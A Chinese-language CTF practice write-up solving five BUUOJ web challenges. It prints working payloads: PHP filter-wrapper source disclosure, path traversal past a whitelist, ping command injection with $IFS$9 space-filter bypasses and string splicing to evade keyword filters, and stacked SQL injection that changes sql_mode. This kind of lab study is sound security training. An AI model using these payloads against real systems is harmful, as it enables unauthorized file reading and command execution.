




# 刷题

## [ACTF2020 新生赛]Include

进入实例的Tips页面，只有一行字：Can you find out the flag?

看到此时传入的file为flag.php

因为直接用href文件包含去打开flag.php，所以不会显示源码，flag应该是藏在源码里了，

所以用伪协议可以直接读取源码：

php://filter/convert.base64-encode/resource=文件路径

php伪协议，将源代码以base64编码形式返回！

再用：

```bash
echo "" | base64 -d
```

解码得到源码：

```
<?php
echo "Can you find out the flag?";
//flag{26a98c42-5747-4314-979e-6501373fa329}
```

可以看到flag作为注释出现。

## [HCTF 2018]WarmUp

点开是滑稽脸，F12看源代码，提示我们访问source.php，直接由当前路由访问source.php可以看到源码，放在了1.php。

同样的方式按提示访问hint.php，告诉了我们flag在一个叫ffffllllaaaagggg的文件里

flag not here, and flag in ffffllllaaaagggg

审计代码可以看到，我们的目标是通过传入file参数让其include出flag，

在if的三个条件中，主要关注checkfile()，

审计函数，我们的file要么在白名单里，要么经过一定处理后在白名单里：

```php
$_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
```

表示先给page加一个?，然后截出其第一个?前面的内容作为_page。

再后面的操作相当于先urldecode再进行同样的操作。

所以我们的file中间可以加一个?，只要?前面通过白名单就可以。

自然构造payload:

?file=source.php?ffffllllaaaagggg

无返回，猜测ffffllllaaaagggg不在当前目录，根据经验应该在根目录，溯源而上，最后在五层目录后发现flag：

http://2bb21047-1cd9-46ad-be1f-8eb59ee2aafa.node5.buuoj.cn:81/
?file=hint.php?../../../../../ffffllllaaaagggg

flag{b6cbd9f4-2fe3-4276-a3f6-6929a2f4ceab} 

PS：不是特别明白include为什么可以读到?后面的内容

PSS：补充：***如果include包含的文件中含有路径，就会包含最后一个/后面的文件***，这下看懂了

## [GXYCTF 2019]Ping Ping Ping

前面做了一道RCE的题目，比较简单，没有任何过滤，直接;ls /找flag再打开就可以了

这题就不一样了，上来提示传入ip，应该也是接入了一个ping命令的尾巴，

直接0.0.0.0，发现确实应该是一个ping命令

老样子来试一下ls，

?ip=0.0.0.0 & ls /

回显：

/?ip= fxck your space!

作者很有礼貌的拒绝了我们在ip里传入空格，尝试了url编码也过不去

于是我们来看看其他的绕过：

- <
  `<`本身不是空格绕过符号，而是Shell 重定向符号，常用于文件输入。
  在某些情况下，`cat<flag` 会被当作“cat 命令，把 flag 文件内容送入标准输入”，如果命令解析器允许这样写，可以绕过对空格的检测。

- ${IFS}
  `${IFS}` 是 Shell 变量，IFS 全称是“Internal Field Separator”，即内部字段分隔符，默认值就是空格、Tab、换行。
  在 Bash 和大多数 Shell 里，${IFS} 会被解析成空格，是最经典的空格绕过方式。

- $IFS$9
  和`${IFS}`类似，不过后面多加一个$来截断，并且$9表示当前系统shell进程的第九个参数的持有者，始终为空字符串

- %09
  `%09` 是 URL 编码，代表 Tab 字符（ASCII 0x09）。Shell 把 Tab 也当作分隔符，等价于空格。

使用${IFS}后再次得到了作者礼貌的提示：

/?ip= 1fxck your symbol!

经过试验是过滤掉了{}大括号和<小于号和/斜杠，;分号没有被过滤，可以作为command分隔符

?ip=0.0.0.0;ls$IFS$9/

回显出了flag.php：

flag.php
index.php

直接cat：

?ip=0.0.0.0;cat$IFS$9flag.php

发现再次收获作者礼貌的提醒：

/?ip= fxck your flag!

那就用fla''g试试，还是不行（也可以看index.php），估计是顺序正则匹配，那就用变量拼接法：

?ip=0.0.0.0;a=g;cat$IFS$9fla$a.php

查看网站源码得到flag：

flag{305746c7-bd4b-4e9f-b310-7e556b1a1184}

## [SUCTF 2019]EasySQL

这是一道很有想象力的sql注入！

题目提示 Give me your flag, I will tell you if the flag is right. 

我们随意输入字符串，我输入了一个'kemmy'但是没有任何回显。

尝试万能密码时发现回显'Nonono'，经试验应该是or被过滤了。

尝试这两种输入都无回显：

1' 应报错
1'# 应正常

说明这不是常规的select * from * where post['query']=$flag 之类的。

我们尝试数字0和1，发现输入0无回显，输入1有回显！

Array
(
    [0] => 1
)

继续尝试发现2,3,4都有一样的回显，结合回显内容，我们可以推理出我们post传入的query应该是作为一个bool值！

导入query=1; show tables;

可以发现表名叫Flag，我们要的flag应该就是在里面

做一个大胆的推测：

select post('query') || flag from Flag

后端的表达式应该格式是这样子的，不然也不会一直返回1，而输入其他的时候什么回显都没有。

为了验证我们的猜想，可以传入1,1，得到回显：

Array
(
    [0] => 1
    [1] => 1
)

没错！

所以我们只需要传入query=*,1，实际执行就相当于先查询了一个select * from Flag，得到回显：

Array
(
    [0] => flag{bf04a95f-e678-4525-b007-6f78dbf5268f}
    [1] => 1
)

即得flag！

PS:有大佬有另一种做法：

其实||在sql表达式中可以作为连接符，也即concat来使用，为此我们需要修改sql_mode全局变量，

不过幸运的是这里给我们的权限相当宽松，我们直接修改之后，随意select即可：

query=1;set sql_mode=PIPES_AS_CONCAT;select 1

回显：

Array
(
    [0] => 1
)
Array
(
    [0] => 1flag{bf04a95f-e678-4525-b007-6f78dbf5268f}
)

也可以得到flag！

启发：当sql_mode可以修改时也不妨为一种手段！

## [极客大挑战 2019]Secret File



一开始的页面，在审计源码之后发现了一个Archive_room.php，直接访问：



从源码可以看到SECRET链接的是一个叫action.php的文件，我们点击SECRET：



发现定位到end.php，说明中间发生了重定向！

查看Network，发现第一个请求302了

知识时间：302 是 HTTP 状态码，代表“Found”（已找到），但实际上它的主要用途是临时重定向。
服务器返回 302 Found，意味着客户端（如浏览器）应当临时使用响应头中的 Location 字段指定的新 URL 进行请求。
这种重定向是“临时性的”，即未来这个 URL 可能还会变。

用bs去发请求，得到的原始响应是：

```
HTTP/1.1 302 Found

Server: openresty

Date: Tue, 23 Sep 2025 09:27:35 GMT

Content-Type: text/html; charset=UTF-8

Connection: keep-alive

X-Powered-By: PHP/7.3.11

Location: end.php

Cache-Control: no-cache

Content-Length: 63


<!DOCTYPE html>

<html>
<!--
   secr3t.php        
-->
</html>
```

可以看到确实是经历了一次重定向到end.php，而我们的响应中涉及一个secr3t.php，访问：

```php
<html>
    <title>secret</title>
    <meta charset="UTF-8">
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
</html>
```

根据提示，传入file=flag.php：



说明我们应该是要提取flag.php的源码，

是一个include漏洞，用php伪协议：

php://filter/convert.base64-encode/resource=文件路径

得到源码的base64编码：

PCFET0NUWVBFIGh0bWw+Cgo8aHRtbD4KCiAgICA8aGVhZD4KICAgICAgICA8bWV0YSBjaGFyc2V0PSJ1dGYtOCI+CiAgICAgICAgPHRpdGxlPkZMQUc8L3RpdGxlPgogICAgPC9oZWFkPgoKICAgIDxib2R5IHN0eWxlPSJiYWNrZ3JvdW5kLWNvbG9yOmJsYWNrOyI+PGJyPjxicj48YnI+PGJyPjxicj48YnI+CiAgICAgICAgCiAgICAgICAgPGgxIHN0eWxlPSJmb250LWZhbWlseTp2ZXJkYW5hO2NvbG9yOnJlZDt0ZXh0LWFsaWduOmNlbnRlcjsiPuWViuWTiO+8geS9oOaJvuWIsOaIkeS6hu+8geWPr+aYr+S9oOeci+S4jeWIsOaIkVFBUX5+fjwvaDE+PGJyPjxicj48YnI+CiAgICAgICAgCiAgICAgICAgPHAgc3R5bGU9ImZvbnQtZmFtaWx5OmFyaWFsO2NvbG9yOnJlZDtmb250LXNpemU6MjBweDt0ZXh0LWFsaWduOmNlbnRlcjsiPgogICAgICAgICAgICA8P3BocAogICAgICAgICAgICAgICAgZWNobyAi5oiR5bCx5Zyo6L+Z6YeMIjsKICAgICAgICAgICAgICAgICRmbGFnID0gJ2ZsYWd7ZWZhNTY5OWQtOTcyOS00MWEyLWE5NzgtZTA0NTIwODg2MDVkfSc7CiAgICAgICAgICAgICAgICAkc2VjcmV0ID0gJ2ppQW5nX0x1eXVhbl93NG50c19hX2cxcklmcmkzbmQnCiAgICAgICAgICAgID8+CiAgICAgICAgPC9wPgogICAgPC9ib2R5PgoKPC9odG1sPgo= 

解码得到：

```php
<!DOCTYPE html>

<html>

    <head>
        <meta charset="utf-8">
        <title>FLAG</title>
    </head>

    <body style="background-color:black;"><br><br><br><br><br><br>
        
        <h1 style="font-family:verdana;color:red;text-align:center;">啊哈！你找到我了！可是你看不到我QAQ~~~</h1><br><br><br>
        
        <p style="font-family:arial;color:red;font-size:20px;text-align:center;">
            <?php
                echo "我就在这里";
                $flag = 'flag{efa5699d-9729-41a2-a978-e0452088605d}';
                $secret = 'jiAng_Luyuan_w4nts_a_g1rIfri3nd'
            ?>
        </p>
    </body>

</html>
```

得到flag！


